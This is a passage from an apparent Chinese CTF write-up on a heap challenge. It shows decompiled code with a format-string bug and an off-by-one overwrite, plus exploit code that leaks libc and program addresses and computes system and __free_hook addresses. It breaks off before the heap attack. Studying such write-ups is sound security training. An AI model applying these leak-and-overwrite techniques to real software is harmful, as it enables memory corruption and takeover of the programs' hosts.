 存在格式化字符串漏洞，可用来泄露libc地址（其实利用格式化字符串漏洞就可以拿到shell,不过本文主要讲off-by-one)

Delete:将指定的chunk free掉,并进行一系列清0操作

     if ( !memcmp(cookie, &my_cookie[48 * id], 8uLL) )
      {
        free(*(&rank_ptr + 6 * id));
        *(&rank_ptr + 6 * id) = 0LL;
        size_rank_the[12 * id] = 0;
        memset(&my_cookie[48 * id], 0, 0x20uLL);
        puts("Deleted!");
      }

Change：对指定的chunk 重写，存在off-by-one漏洞，可将下一个chunk的size最后一字节覆盖为0x00

          v10 = *(&rank_ptr + 6 * id);          // off-by-one
          v5 = 0;
          for ( i = 0; size_rank_the[12 * id] >= i && (v5 != 1 || s[i] != 'n' && s[i] != 'N'); ++i )
          {
            if ( s[i] == 0x25 )
              v5 = 1;
            *(i + v10) = s[i];
          }
          puts("Changed OK!");
          memset(s, 0, (size_rank_the[12 * id] + 10));

程序功能分析完了，下面开始利用。

## off-by-one利用

1.利用格式化漏洞泄露libc地址和程序地址，算出所需符号地址

    data0 = play(0x120,'%13$lxAAAA%15$lxBBBB%9$lx') #0

    Show()
    libc_start_main = libc.symbols['__libc_start_main']
    io.recvuntil('0:')
    data = int(io.recv(12),16) #__libc_start_main+F0
    io.recvuntil('BBBB')#main+61
    data2 = int(io.recv(12),16)

    main = 0x0000000000001874
    base = data2 - main - 0x61
    libc_base = data - libc.symbols['__libc_start_main'] - 0xF0
    system_addr = libc_base + system_libc
    free_hook_addr = libc_base + free_hook

    success('base:'+hex(base))
    success('libc_base:'+hex(libc_base))
    success('system_addr:'+hex(system_addr))
    success('free_hook_addr:'+hex(free_hook_addr))

2.off-by-one

先申请三个堆块
